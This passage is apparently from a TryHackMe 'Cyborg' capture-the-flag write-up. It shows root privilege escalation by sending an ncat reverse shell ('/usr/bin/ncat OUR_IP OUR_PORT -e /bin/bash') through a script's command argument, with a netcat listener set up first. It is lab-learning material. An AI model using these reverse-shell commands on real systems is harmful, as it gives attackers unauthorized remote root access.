 Well, one moment. It depends what type of payload we use. If we wanted to send a simple `bash` reverse `TCP` shell using the `/dev/tcp` devices we'd fail because the redirection involved will cause the shell to error out. Let's not try to do anything too complicated as we're trying to spawn this shell through a script's command argument. 

First, let's see if `ncat` is on the machine.

![[cyborg_29.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/Cyborg/images/cyborg_29.png)

Good. We can easily send ourselves a shell with `ncat` using the `-e` flag. Hopefully the addition of this extra flag in the call doesn't cause an issue when being parsed.

Before sending the shell we'll set up a listener with `rlwrap nc -nlvp 4142`.

Now, we'll run a reverse shell to our connection using: `/usr/bin/ncat OUR_IP OUR_PORT -e /bin/bash` as the command to the script. This should result in us getting a shell as the `root` user.

![[cyborg_30.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/Cyborg/images/cyborg_30.png)
